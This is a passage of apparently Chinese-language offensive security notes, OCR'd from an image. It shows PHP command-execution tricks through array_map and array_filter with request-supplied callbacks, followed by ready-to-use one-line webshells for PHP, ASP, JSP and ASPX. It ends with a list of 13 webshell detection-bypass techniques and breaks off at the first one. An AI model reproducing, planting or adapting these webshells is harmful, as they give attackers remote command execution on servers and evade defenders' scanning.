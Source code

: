```php
// ?e=system&cmd=whoami&ip=ipconfig
<?php
$func1=$_REQUEST['e'];
$cmd=$_REQUEST['cmd'];
$ip=$_REQUEST['ip'];
$array[0]=$cmd;
$array[1]=$ip;
$new_array=array_map($func1,$array);
?>
```

- `array_filter()`

```php
// ?f=system&whoami
<?php
$who=$_REQUEST['who'];
$array1=array($who);
$func2=$_REQUEST['f'];
@array_filter($array1,$func2);
?>
```

#### webshell绕过

- PHP一句话木马

```php
<?php @eval($_POST['cmd']);?>
```

- ASP一句话木马

```jsp
<%eval request("cmd")%>
```

- JSP一句话

```jsp
<% @page language="java"
	Runtime.getRuntime().exec(request.getParameter("cmd"));
%>
```

- aspx

```asp
<%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>
<%@ Page Language="Jscript" validateRequest="false" %><%Response.Write(eval(Request.Item["pass"],"unsafe"));%>
```

> 绕过(`关键字查找`,`关键字替换`,`编码替换`,`操作符`,`更换数据来源`,`嵌套`,`更换标签(script)`,`字符串组合`,`自定义类`,`自定义函数`,`魔术方法`,`匿名方法`,`异或运算`)  --> 13种

- `关键字查找`(str_replace)
